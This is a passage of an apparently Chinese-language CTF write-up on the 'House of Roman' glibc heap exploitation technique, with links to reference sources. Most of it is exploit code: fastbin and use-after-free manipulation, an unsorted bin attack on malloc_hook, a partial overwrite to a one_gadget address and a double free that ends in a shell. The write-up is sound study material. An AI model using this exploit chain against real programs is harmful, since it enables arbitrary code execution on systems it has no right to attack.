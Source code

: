 然后分配 `3` 个 `0x70` 的 `chunk` ，就可以拿到 `malloc_hook` 所在的那个 `chunk` .

 

```
create(0x65,0)
create(0x65,0)
create(0x65,0)
```

然后 `free` 掉 `E` ，进入 `fastbin` ，利用 `uaf` 设置 `E->fd = 0` ， 修复了 `fastbin`

```
free(15)
edit(15,p64(0x00))
info("再次生成 0x71 的 fastbin, 同时修改 fd =0, 修复 fastbin")
```

然后是 unsorted bin 攻击，使得 malloc_hook 的值为 main_arena+88

 

```
create(0xc8,1)
create(0xc8,1)
create(0x18,2)
create(0xc8,3)
create(0xc8,4)
free(1)
po = "B"*8
po += "\x00\x1b"
edit(1,po)
create(0xc8,1)
info("unsorted bin 使得 malloc_hook 有 libc 的地址")
```

利用 修改 `malloc_hook` 的低三个字节 ，使得 `malloc_hook` 为 `one_gadget` 的地址

 

```
over = "R"*0x13   # padding for malloc_hook
over += "\xa4\xd2\xaf"
edit(0,over)

info("malloc_hook to one_gadget")
```

然后 `free`  两次同一个  `chunk`  ，触发  `malloc_printerr`  ， `getshell`

 

```
free(18)
free(18)
```



## link

https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc

https://github.com/romanking98/House-Of-Roman

https://xz.aliyun.com/t/2316
